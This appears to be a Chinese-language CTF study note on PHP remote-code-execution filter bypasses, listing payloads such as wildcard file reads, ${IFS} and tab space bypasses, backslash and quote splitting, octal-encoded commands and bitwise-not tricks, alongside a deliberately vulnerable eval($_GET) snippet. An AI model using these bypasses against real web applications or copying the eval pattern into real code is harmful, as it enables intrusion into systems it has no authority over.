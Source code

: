 ```yaml
---
title: RCE
date: 2024-05-15 21:53:24
permalink: /pages/96f5e6/
categories:
  - web
tags:
  - rce
  - php
author: 
  name: ajay
  link: https://the0n3.top
---
```



## 1. 通配符

绕过文件名/扩展名的限制

```php
tac f*
cat f?ag.p?p
less f*
more f*
```

## 2. system()执行系统命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

echo会将反引号中字符串作为命令执行

## 3.passthru()代替system()执行系统命令

```php
passthru('ls')
```

## 4. 反引号，echo执行代码  

```bash
echo `ls`
```

eval会执行字符串中的反引号命令,但是没有回显

```php
eval(`ls`);
```

**反引号搭配重定向“>”符号有奇效，把命令的结果打印到新的文件中**，详细看[写文件](http://the0n3.top//pages/a12979/)

## 5.空格绕过

注意：其中的url编码只有在get传参时能使用
```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

**以上，<，<>重定向不能和通配符？同时使用**  
**%09，%0Atab和换行的url编码，只有明确ban了才不能用，如果只是ban数字和字母，不妨碍继续使用,有时%0A后文件名为英文会失效**

## 6.转义绕过

在一些时候开发者(出题人)，可能只做了简单的关键词过滤或过滤逻辑不严格时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)

你可以在终端尝试，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  
**Tip**：转义在终端类环境下可用，例如system("")函数，只有一层php的eval()函数不能直接执行linux命令，配合反引号可以执行，但不会有回显，可以再配合一次重定向写文件

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

当正则匹配字段/命令限制较多时，你可以多一个选择

[参考](linux/04tran-meaning.md)


## 7.单双引号

在linux环境下，在要执行的命令中加入''单引号 双引号""，并不会解析，命令会正常执行，这也可以作为绕过关键字限制的一种方法

```bash
pw''d
l''s
pw""d
l""s
```

等等类似命令都可以正常执行


## 8.八进制

在linux环境下，把命令转化为八进制数，使用$'\八进制数'，命令会正确执行，注意：命令不能带有参数  例如ls -lah，tac /flag中-lah,/flag都算参数

更详细内容可以看**探姬**的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目

ls命令的八进制数

```bash
$'\154\163'
```

## 9.{命令,参数}

在linux下可以使用{ls,/}格式执行命令

```bash
{ls,/}
```

## 10.bin目录

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
?c=/???/????64${IFS}????.???
```

## 11.取反

```php
<?php

highlight_file(__FILE__);
# 接收命令及参数
$cmd = $_GET['cmd'];
$param = $_GET['param'];
# 按位取反一次
$execmd = (~$cmd);
$param = (~$param);
# 再取反一次得到本身
eval("(~$execmd)(~$param);");
```
> payload：?cmd=system&param=ls

## 12.自增

参考：

[自增，取反，异或 实现RCE](https://blog.csdn.net/whale_waves/article/details/136365419)

## 13.异或

大佬写的写的非常好了，又新又好😍，直接放参考了

参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)

[无字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)